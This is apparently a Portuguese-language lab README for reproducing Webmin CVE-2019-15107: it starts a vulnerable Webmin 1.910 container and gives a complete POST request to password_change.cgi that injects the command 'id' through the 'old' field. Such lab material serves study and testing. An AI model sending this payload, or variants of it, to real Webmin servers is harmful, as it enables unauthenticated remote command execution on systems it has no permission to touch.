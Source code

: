 # Webmin Unauthenticated Remote Code Execution (CVE-2019-15107)

Webmin é uma ferramenta de configuração de sistema baseada na web para sistemas do tipo Unix. A vulnerabilidade existe na página de redefinição de senha, que permite que usuários não autenticados executem comandos arbitrários por meio de uma simples solicitação POST.

Referenciadores:

- https://www.pentest.com.tr/exploits/DEFCON-Webmin-1920-Unauthenticated-Remote-Command-Execution.html
- https://www.exploit-db.com/exploits/47230
- https://blog.firosolutions.com/exploits/webmin/

## Iniciar aplicação vulnerável

Inicie um Webmin 1.910 vulnerável através do seguinte comando:

```
docker-compose up -d
```

Após o ambiente ser iniciado, você pode ver a página de login do Webmin em `https://your-ip:10000`.

## Reprodução de vulnerabilidade

A carga útil dos links de referência está incompleta. Depois de ler o código em profundidade, descobri que o comando só pode ser executado se o parâmetro do usuário do corpo não existir antes de 1.920, depois de 1.920, sem limite.

Resumindo, enviando a seguinte solicitação POST para executar o comando `id`:

```
POST /password_change.cgi HTTP/1.1
Host: your-ip:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```

![](1.png)
